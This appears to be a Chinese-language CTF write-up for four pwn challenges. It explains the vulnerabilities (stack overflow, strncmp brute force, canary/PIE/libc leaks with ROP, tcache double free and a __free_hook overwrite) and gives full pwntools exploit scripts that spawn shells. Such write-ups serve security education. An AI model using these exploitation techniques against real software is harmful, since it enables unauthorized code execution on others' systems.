




# PWN

## babystack

### 考察要点

1. 变量在栈帧中的位置关系
2. 栈溢出

### 解题过程

```python
from pwn import *

p = remote('119.23.206.23', 10001)

p.recvuntil('what\'s your name?\n')
p.send('a'*0x10 + '\x33')

p.interactive()
```

## login

### 考察要点

1. strncmp 函数作用
2. python 爆破脚本编写

### 解题过程

发现程序中每次与 flag 的比较都是使用的 strncmp，因此可以逐字节爆破
注：`strncmp("sc", "scuctf{...}", 2) == 0`

```python
from pwn import *

context.log_level = 'critical'

table = list(string.printable)
current = ''

while(True):
	#p = process('./login')
	p = remote('119.23.206.23', 10002)
	p.recvuntil('What your name?\n')
	p.sendline('hgy')
	for i in table:
		tmp = current + i
		p.recvuntil('Your password :')
		p.send(tmp)
		res = p.recvline()
		if "Welcome" in res:
			current += i
			print current
			p.close()
			break

p.interactive()
```

## noflag

### 考察要点

1. 栈溢出
2. canary 绕过
3. rop

### 解题过程

在 main 函数中存在两次输入，第一次输出会被重新打印出来。
因为使用的 read 接受的输入，所以在字符串末尾不会添加'\0'，那么在输出时就不会截断，由此可以一次性泄露出栈上的 canary 和程序段地址。

只要输入 0x29 个'a',就能恰好覆盖掉 canary 最低位的'\x00'，然后当程序输出时，就可以成功泄露出 canary 以及它后面的一个代码段的地址。该代码段地址与代码段基址有一个固定的偏移，减去该偏移既可获得基址。到此，也就同时绕过了 pie 和 canary。
然后程序会接受第二次输入，这次输入就需要修复刚刚被修改掉最后一字节的 canary，同时将返回地址修改为 main 函数，这样就可以二次利用漏洞了

在第二次执行 main 函数中，在输入时输入 0xc0 个'a'，就可以泄露出一个位于 ld 中的地址，改地址到 libc 基址的偏移固定，所以由此可以泄露出 libc 的基址。


在第二次输入时，由于泄露出了 libc 基址，就可以通过 rop 为所欲为了 2333。这里 exp 是用的 one_gadget，因为事先已经通过 rop 泄露出的函数地址得到了远程的 libc 版本为 2.23(rop 代码就不给出了)。

```python
from pwn import *

p = process('./noflag')

p.recvuntil('length of name: \n')
p.sendline(str(0x29))

p.recvuntil('name: \n')
p.send('a'*0x29)

p.recvuntil('a'*0x28)
canary = u64(p.recvn(8)) / 0x100 * 0x100
pie = u64(p.recvuntil('l')[:-1].ljust(8, '\x00')) - 0xe10
print "canary: %#x" % canary
print "pie: %#x" % pie

main = pie + 0xd21

p.recvuntil('of introduction: \n')
p.sendline(str(0x40))

p.recvuntil('introduction: \n')
p.send('a'*0x28 + p64(canary) + p64(0xdeadbeef) + p64(main))

p.recvuntil('length of name: \n')
p.sendline(str(0xc0))

p.recvuntil('name: \n')
p.send('a'*0xc0)

p.recvuntil('a'*0xc0)
libc_base = u64(p.recvuntil('l')[:-1].ljust(8, '\x00')) - 0x3da7cb
print "libc_base: %#x" % libc_base

one_gadget = libc_base + 0x4526a

payload = 'a' * 0x28 + p64(canary) + p64(0xdeadbeef) + p64(one_gadget)
payload = payload.ljust(0xc0, '\x00')

p.recvuntil('of introduction: \n')
p.sendline(str(0xc0))

p.recvuntil('introduction: \n')
p.send(payload)

p.interactive()
```

然而这题不止一个解，可以不用泄露 libc，通过构造 rop 调用 fopen 和 fscanf 来读取 flag 也行，不过就麻烦了许多。

## club

### 考察要点

1. 通过写泄露堆地址推测 libc 版本
2. fastbin attack
3. 通过 unsorted bin 泄露 libc
4. tcache 利用

### 解题思路

1. 检查题目保护，发现保护全开



2. 首先连续添加多个 member，然后再依次释放第一个和第二个 member，使得第二个 chunk 的 fd 指向了第一个 chunk 的地址。再次将第二个 chunk 分配出来，name 设置为'b'，这只会修改掉堆地址的最后一个字节。通过 edit(1, 'b')输出该 chunk 的 fd。可以发现，地址的第 3 位不为 0，而是 2，这就意味着堆上事先分配了一个 0x200 大小以上的 chunk，联系到 libc2.27 以上会在堆上开辟一个 0x250 大小的空间用于管理 tcache，从而确定文件环境是存在 tcache 的。


2. 观察到每次 remove 都会清空 name，但是当我 remove 时只输入回车，就会导致'\0'与'\0'比较，从而使已经 free 的堆块再次被释放，造成 double free。由因为具有 tcache，所以我们可以很容易的在任意地址分配 chunk。


3. 为了泄露 libc 的基址，先通过 double free，在堆上分配一个错位了 chunk，从而可以修改掉一个正常堆块 victim 的 size，将 size 修改为 0xc1，使其变成一个 smallchunk，然后释放掉 victim，就可以在 fd 和 bk 的位置获得 libc 中的地址。再次将该处内存分配出来，就可以泄露出 libc 的地址了。




4. 通过 double free 在\_\_free_hook 处分配 chunk，然后写入 libc2.27 的 one_gadget 的地址成功 getshell

```python
from pwn import *

context.log_level = 'debug'
p = process("./contact")
libc = ELF('./libc.so.6') #libc版本为2.27


def add(name, description):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('name: ')
    p.sendline(name)
    p.recvuntil('description(max 0x29bytes): \n')
    p.send(description)

def remove(name):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('name of member: \n')
    p.sendline(name)

def edit(idx, description):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('number of member: \n')
    p.sendline(str(idx))
    p.recvuntil('new description: \n')
    p.send(description)

add('a', 'a')
add('b', 'b')
add('c', 'c')
add('d', 'd')
add('e', 'e')
add('x', 'x')
add('x', 'x')

remove('x')
remove('x')
remove('a')
remove('')
add('a', 'a')
edit(0, 'a')

p.recvuntil('a: ')
heap_base = u64(p.recvline()[:-1].ljust(8, '\x00')) / 0x1000 * 0x1000 + 0x250
print "heap_base: %#x" % heap_base

payload = p64(heap_base+0x30)
edit(0, payload)

add('f', 'f')

payload = p64(0)*3 + p64(0xc1)
add('g', payload)

remove('b')
for _ in range(7):
    remove('')
add('b', 'b')

edit(1, 'a'*8)
p.recvuntil('b: aaaaaaaa')
libc_base = u64(p.recvline()[:-1].ljust(8, '\x00')) - 0x3ebd50
free_hook = libc_base + libc.symbols['__free_hook']
one_gadget = libc_base + 0x4f322
print "libc_base: %#x" % libc_base
print "free_hook: %#x" % free_hook
edit(1, p64(0))

remove('a')
remove('')
add('a', p64(free_hook))
add('t', '/bin/sh\x00')
add('p', p64(one_gadget))

remove('t')

p.interactive()
```
